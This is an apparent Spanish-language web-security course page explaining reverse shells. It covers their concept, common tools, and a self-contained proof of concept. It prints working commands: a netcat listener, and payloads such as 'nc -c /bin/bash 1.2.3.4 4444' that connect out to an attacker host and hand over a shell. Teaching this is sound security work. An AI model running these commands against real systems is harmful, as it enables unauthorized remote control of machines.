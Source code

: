 ```yaml
---
title : "Reverse Shell"
lead: ""
date: 2020-10-06T08:48:45+00:00
draft: false
images: []
menu:
  docs:
    parent: "apps-web"
weight: 40060
---
```


En el capítulo anterior vimos cómo ejecutar comandos de manera remota en un servidor, sin tener acceso a una
terminal. Esto es muy útil en un comienzo, pero rápidamente se vuelve evidente la lentitud, torpeza y limitaciones
que significa este medio. Sería mucho más cómodo si de alguna forma se pudiese obtener acceso a una terminal,
o _shell_, con la cual ejecutar comandos de manera más directa, y sin tener que pasar por todo el proceso
remoto.

Afortunadamente existen las shell reversas: a diferencia de una shell normal, en la cual el cliente se conecta
a un servidor escuchando por conexiones, una shell reversa implica que el cliente está a la espera de una
conexión, y es el servidor quien la inicia. Asumiendo que ya tienen RCE, es posible iniciar una reverse shell con
un par de comandos, aunque puede ser necesario evadir algún filtro, firewall o antivirus.

Los pasos para levantar una reverse shell son los siguientes:
1. El atacante espera por conexiones TCP en algún puerto específico (por ejemplo 4444).

2. El servidor inicia una conexión TCP con el atacante en el puerto especificado.

3. Una vez establecida la conexión, el servidor levanta una shell
   (como `sh` o `bash` en Linux, y `cmd.exe` o `powershell.exe` en Windows).

4. Todos los mensajes del atacante son redirigidos a la entrada estándar de la shell, y la salida estándar de
esta es redirigida por la conexión hacia el atacante.

## Herramientas

En términos generales, cualquier programa que permita escuchar e iniciar comunicaciones TCP, y luego redirigir
las entradas y salidas estándar, debería funcionar. Los más comunes son:
* Linux: `nc`, `ncat`, `netcat`, `socat`
* Windows: `nc.exe`

También se puede iniciar reverse shells con casi todos los lenguajes de programación.
[Aquí](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
pueden encontrar documentación sobre muchas técnicas distintas de iniciar reverse shells.

## Ejemplo

### Cliente

Para empezar a escuchar en el puerto `4444` por conexiones TCP, puede usar `nc` de la siguiente forma:

    nc -lvp 4444

También pueden usar [pwncat](https://github.com/calebstewart/pwncat), que está hecho para reverse shells,
y tiene más características, como autocompletado con TAB.

    pwncat --listen --port 4444

### Servidor

En el servidor usualmente no se tiene control de los programas instalados, por lo que se tendrán que adaptar
a lo que encuentren ahí. De todas formas, casi siempre está instalado `nc` o `nc.exe`. Para iniciar la conexión
a la IP `1.2.3.4` y puerto `4444`, levantar la shell y redirigir la entrada y salida estándar, se ejecuta lo siguiente:

    nc -c /bin/bash 1.2.3.4 4444
    nc.exe 1.2.3.4 4444 -e cmd.exe

### Prueba de Concepto

Ejecutamos lo descrito anteriormente, con una misma máquina funcionando como cliente y servidor. En el lado
del servidor no se ve nada muy interesante:

![Reverse Shell Server](../reverse-shell-server.png)

Pero el cliente ahora tiene una shell nueva:

![Reverse Shell Client](../reverse-shell-client.png)
